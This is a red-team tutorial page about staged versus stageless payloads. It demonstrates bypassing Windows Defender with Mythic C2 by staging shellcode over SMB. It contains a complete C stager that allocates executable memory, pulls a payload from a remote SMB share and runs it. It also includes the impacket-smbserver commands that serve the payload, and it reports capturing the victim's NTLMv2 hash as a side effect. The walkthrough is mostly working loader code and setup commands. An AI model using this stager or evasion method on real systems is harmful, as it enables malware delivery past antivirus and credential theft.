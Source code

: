 # Staging vs Stageless payloads - Which one is Better?

## Intro

In this documentation, we will explore the differences between staged and stageless payloads. In my recent video, I demonstrated how to use the **Mythic C2 framework** to successfully bypass **Windows Defender** — not through obfuscation or encryption, but purely by leveraging **payload staging over SMB**.

📺 **Watch the full video here**: https://youtu.be/CSt5wcvNjBU

Before diving deeper into this topic, make sure to join my [Discord](https://discord.gg/bgSpdheEgu) where we share experience, knowledge and doing CTFs together.

!!!
If you have further appreciation for my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt)! This way, you help the Red Teaming Army grow, while getting access to private tools such as the ShadowBurn packer.
!!!

## What is a Stageless Payload?

A **stageless payload** is a single, self-contained binary or script that includes the entire functionality of the final payload at once. When executed, it immediately initiates a connection back to the C2 (Command and Control) server without requiring any additional downloads or secondary stages. 

**Characteristics:**
- Contains both the loader and full payload logic.
- Easier to detect by security tools due to its size and complexity.
- Useful when staging isn't possible (e.g., no or restricted network access).
- Requires more effort to obfuscate and hide in memory.


![[Pasted image 20250723185040.png]]

## What is a Staged Payload?

A **staged payload** breaks the delivery into two or more parts. The initial stage (the stager) is small and lightweight — its only job is to download or retrieve the second stage (the full payload) from a specified location (e.g., an SMB server, HTTP server, etc.).

**Characteristics:**
- Smaller initial binary, making it easier to deliver and evade defenses.
- The second stage can be dynamically fetched or built in memory.
- More modular and flexible for C2 communications.
- Detection can be bypassed by isolating or encrypting the second stage.


![[Pasted image 20250723185054.png]]

## Demo

This section contains the live demonstration and technical walkthrough of the technique. It includes code snippets, configurations, and output logs relevant to staging payloads over SMB using Mythic C2.

During the demo I used Mythic C2 (https://github.com/its-a-feature/Mythic) but the technique is applicable and recommended for any C2 framework.

The code was compiled from my Offensive CPP Repository:

* SMB Staging code: https://github.com/lsecqt/OffensiveCpp/blob/main/Staging%20Techniques/SMB_Stage.c

* Direct Pointer Shellcode Execution Blogpost: https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer-a-stealthy-maneuver-in-evasion-tactics/ 

During the video, I created the following code:

```C
#include <windows.h>
#include <stdio.h>

unsigned char buf[2120150] = "";

void readBin(const char* fileName) {
	FILE* file;
	DWORD file_length;

	HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == NULL)
	{
		printf("Error opening file: %d\n", GetLastError());
		exit(-99);
	}

	BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
	if (rez == FALSE)
	{
		printf("Error reading file: %d\n", GetLastError());
		exit(-98);
	}
}

int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	readBin("\\\\192.168.0.185\\share\\apollo.bin");
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();

}
```

Here is important to note the size of `unsigned char buf[2120150]`. The `2120150` is the size of the payload generated from Mythic C2. If you do `ls -l` you can note the size of the file and this is the same size you need here.

Also, the size must be adjusted in here:

```C
BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
```

Usually I would go for dynamic memory allocation but the point was to showcase the staging.

---

Next we need to setup the server side. Since we are going to stage over SMB, `impacket-smbserver` can do the job perfect for us.

```ad-note
I will not go over setting up Mythic C2 as its already explained here: [[Installation and Setup (Over SSL)]]
```

To launch the SMB server we can do:

```bash
impacket-smbserver <sharename> <sharepath> -ts -debug -smb2support
```

In our case I am using the CWD (Current Working Directory):

```bash
impacket-smbserver share . -ts -debug -smb2support
```

```ad-note
`<sharename>` must be the same as the one specific here:
`readBin("\\\\192.168.0.185\\share\\apollo.bin");`
```

![[Pasted image 20250723185230.png]]

![[Pasted image 20250723185241.png]]

C2 Callback came immediate while Defender was turned on.

![[Pasted image 20250723185255.png]]

![[Pasted image 20250723185304.png]]

Additionally, we also received the NTLMv2 hash of the user because of the SMB communication.

![[Pasted image 20250723185420.png]]

```ad-note
This is demonstration only for staging technique. Even though it bypassed Defender do no think it is enough. Malware development is a combination of techniques!
```
